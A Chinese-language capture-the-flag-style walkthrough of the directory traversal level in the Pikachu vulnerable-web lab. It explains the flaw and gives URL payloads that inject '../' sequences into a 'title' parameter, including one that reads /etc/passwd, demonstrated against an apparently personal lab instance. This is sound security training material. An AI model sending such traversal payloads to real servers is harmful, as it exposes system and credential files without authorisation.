 # Pikachu靶场通关之目录遍历

## 1、目录遍历漏洞概述

```
目录遍历漏洞概述
在web功能设计中,很多时候我们会要将需要访问的文件定义成变量，从而让前端的功能便的更加灵活。 当用户发起一个前端的请求时，便会将请求的这个文件的值(比如文件名称)传递到后台，后台再执行其对应的文件。 在这个过程中，如果后台没有对前端传进来的值进行严格的安全考虑，则攻击者可能会通过“../”这样的手段让后台打开或者执行一些其他的文件。 从而导致后台服务器上其他目录的文件结果被遍历出来，形成目录遍历漏洞。
看到这里,你可能会觉得目录遍历漏洞和不安全的文件下载，甚至文件包含漏洞有差不多的意思，是的，目录遍历漏洞形成的最主要的原因跟这两者一样，都是在功能设计中将要操作的文件使用变量的 方式传递给了后台，而又没有进行严格的安全考虑而造成的，只是出现的位置所展现的现象不一样，因此，这里还是单独拿出来定义一下。
需要区分一下的是,如果你通过不带参数的url（比如：http://xxxx/doc）列出了doc文件夹里面所有的文件，这种情况，我们成为敏感信息泄露。 而并不归为目录遍历漏洞。（关于敏感信息泄露你你可以在"i can see you ABC"中了解更多）
你可以通过“../../”对应的测试栏目，来进一步的了解该漏洞。
```

## 2、实战演练

目录遍历漏洞同样也是对于用户请求输入数据限制不完全造成。比如…/在linux下表示的是目录回溯，超过目录级数的…/最终都会回溯到根目录。我们就可以构造`../../../../../../etc/passwd`路径访问到/etc/passwd等文件。

正常请求

```
http://x/vul/dir/dir_list.php?title=jarheads.php
```

替换title里的文件名参数。

```
http://x/vul/dir/dir_list.php?title=../../../../../etc/passwd
```

成功读取了预期外的文件。

## 3、靶场演练

我们看到了概述界面的URL是：http://123.56.245.68:83/vul/dir/dir.php

![image-20210104085158553](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104085158553.png)

那么我们打开目录遍历的页面，并且点击第一个连接，就会看到URL上面有着title的链接。

![image-20210104085358862](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104085358862.png)

接下来，我们构造此payload。修改URL，在”目录遍历“页面成功访问到”概述“页面。

```
http://123.56.245.68:83/vul/dir/dir_list.php?title=../dir.php
```

![image-20210104090100703](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104090100703.png)